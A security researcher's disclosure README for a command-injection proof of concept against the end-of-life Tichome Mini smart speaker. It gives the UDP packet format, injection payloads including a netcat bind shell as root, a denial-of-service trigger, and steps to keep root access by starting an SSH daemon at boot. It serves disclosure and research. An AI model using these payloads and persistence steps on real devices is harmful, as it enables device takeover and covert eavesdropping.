

# Introduction

This is a proof of concept (POC) for using a UDP packet to perform a command injection into a Tichome Mini smart speaker.
This device has not been on sale since at least 2024 and has been confirmed end of life (EOL) in an email exchange with the vendor when approached to disclose the vulnerability. A CVE has been requested.

This release accompanies my talk at the 2026 Malware & Reverse Engineering Conference held in Ballarat.

## Why did I bother?

The embedded computer in this is a 4-core ARM processor on par with a Raspberry Pi Zero (2-enabled by default) running headless Android and there is a multitude of peripherals, including bluetooth, speaker, microphone, LEDs, embedded battery, NFC, and USB, although I haven't quite worked out how to play with all of them yet. As such it is a fun device to experiment with, and useful for building a battery powered wifi relay or USB micro-NAS as it can act concurrently as an AP and a client.

## Target Details
* Target Name/Model: Mobvoi Tichome Mini
* Target Version: 2 known firmware versions identified, 012, and 027, both impacted
* Target Category: IoT hardware

## Disclosure
* CVE (RCE): Requested, pending
* CVE ([directory traversal](./directory_traversal.md)): Requested, pending
* Responsible Disclosure: As at 14 August 2025 in email correspondence the vendor has confirmed device is end of life, and "there is no any further action that can be taken."

# Vulnerability Details

## Product Overview
The device is a smart speaker that works with Google cast over wifi. Internally the hardware is very close to a Raspberry Pi, plus speaker, microphone, LEDs, wifi, bluetooth, NFC, 1x micro USB which can operate in OTG mode, and inbuilt battery. A local electronics store had these on sale for ~$30 in 2022 as an end of line product, so I bought some with the aim of repurposing them. They make an excellent wifi repeater (or pineapple), speaker, etc. Even without the security vulnerabilities, they can be easily dismantled and the serial port used to disable the headless Android casting functions and upload your own ARM binaries or scripts to do cool things with.



## Steps to Reproduce

The device first needs to be setup on wifi. Then, from another system on the same network, send a specially crafted UDP packet which triggers a command injection, remote code execution (RCE), after which the world is your oyster.

The RCE relies on a command injection using the C `system()` function which is executed by a process that accepts packets on an exposed UDP port. This appears to be a remnant debugging interface. This seems to be an IPC mechanism using UDP with ports exposed on all IP addresses instead of just 127.0.0.1. The ipc daemon listens on UDP port 35670. It processes a number of message types identified by the first 32-bit word. It is possible to send a crafted UDP packet to port 35670 that can cause a shell injection execution as root, proven by writing to /data and fetching the result using the directory traversal information disclosure. The same mechanism can be used to segfault the ipc process instead, which might even temporarily disable the device.

## Proof of concept:
- construct a binary packet with the following contents
	- 4 bytes 0x13 00 00 00
	- 4 bytes any value - this value is usually used to identify a process but is not checked for a message of type 0x13
	- 4 bytes size, it should be size of this packet although it appears possible that it can take other values and still work
	- Vulnerable data - 128 bytes zero terminated interpreted as a Unix path. Can start with the root `/` and should have at least one `/`
	- a zero terminated host name, although this is not used here. It is possible that this value can also be used to perform a shell injection RCE 
- The Vulnerable data can be set to any file. The vulnerability is caused by use of the `system()` function which causes `sh -c "cp [value-of-Vulnerable-data] [value-after-/]"` Note that if there is no `/` in the data the program will segfault instead, see below. The destination is the working directory of the IPC process, which I think is the root (`/`) which is initramfs. There is then a second `system()` call which tries to run `tftp` but fails as it does not find it; this also provides an opportunity to run shell injection, potentially with a bigger buffer.
- To create a file on /data partitions into data use a value like
`"/$(echo rce > /data/rce)\x00"` then fill with arbitrary values to complete 128 bytes. init.rc just means the cp command wont error as that file exists; it can be any file, or no file (which will just cause cp to fail after the work is done).
- To spawn a shell do something like:
`"/$(busybox nc -l -l -p 9876 -e /bin/bash&)\x00..."`
- To cause a Denial of service, as per above, except do not put a `/` in the 128 byte data, this will cause a NULL pointer dereference

## Scripts

| Script | Purpose |
| -- | -- |
| [inject-crash-command-poc.sh](./inject-crash-command-poc.sh) | This will cause a buffer overflow and segfault |
| [inject-ping-command-poc.sh](./inject-ping-command-poc.sh) | This will ping back to the caller |
| [inject-reverse-shell-command-poc.sh](./inject-reverse-shell-command-poc.sh) | This will start a reverse shell which you can use to access the internal Linux and run commands and start to takeover the device |
| [inject-ping-command-poc-cmd12-instead.sh](./inject-ping-command-poc-cmd12-instead.sh) | This uses a second path to obtain RCE |

Notes:
- the device may time out if left unused for a period of time, although it is unclear exactly what circumstances
- the PING command (and maybe others) may fail if the device is being pummelled with nmap SYN scan at the same time.


## Detailed technical write-up

See [technical.md](./technical.md) for further information

Other resources, related to teardown before the vulnerability was discovered:

https://blog.oldcomputerjunk.net/2022/cheap-smart-speaker-teardown-part1
https://blog.oldcomputerjunk.net/2022/cheap-smart-speaker-teardown-part2
https://blog.oldcomputerjunk.net/2022/cheap-smart-speaker-teardown-part3
https://blog.oldcomputerjunk.net/2023/cheap-smart-speaker-teardown-part4

## Vulnerability Impact Hypothesis

It is a little bit of a stretch, but an attacker looking to hide from EDR measures on laptops or phones could exploit this vulnerability to pivot and maintain persistence. Or simply someone looking to spy on clients at a motel where these might be in use, or any of a number of other scenarios a covert microphone or compromised wifi device would be useful.

Once exploited an attacked can upload scripts and use the embedded Linux operating system and persist in the flash storage. The device supports concurrent wifi AP and client modes allowing it to be reconfigured as a wifi pineapple. The device supports Linux ALSA functionality allowing it to be reconfigured to make unauthorised audio recordings, or play 'haunting' audio. The device could be formed into a botnet and/or participate in DDoS.

Due to the need to be on the same IP subnet as the connected wifi the speaker client connects to, the likelihood of an exploit is diminished compare to this not being the case.

## Reproduction Steps

### Remote command execution and shell

1. Setup the device for wifi
   - detect with the Google Home app and pair with the Google Assistant app
   - find out the IP from your AP
   - OR, connect to the AP before pairing
2. Setup a second host to listen using netcat
3. Run the attached script `inject-ping-command-poc.sh` using arguments `<speaker IP> <netcat IP> <netcat listen port>`
4. Run arbitrary commands on the device over the netcat shell, which runs as root. 

To properly remain persistent through a power cycle the following steps are needed:

1. Execute the following commands using the root shell to start an ssh daemon

```
mount -o remount,rw /system
mkdir /etc/dropbear  # needed also
ln -s /data/usr/bin/dropbearmulti /data/usr/bin/sshd
sshd -F -E -B -R
mount -o remount,ro /system
sshd -F -E -B
```

2. Edit the script `/system/usr/bin/tonlyprog.sh` and start sshd from there
3. For further reliability, if not retaining the original functions, rename or move various other daemons out of the way on writable areas of the firmware partitions and upload your own binaries.

### Denial of Service

Alternately, run the script `inject-crash-command-poc.sh` using arguments `<speaker IP>` to crash the daemon on the device which will lock it up until power cycled.
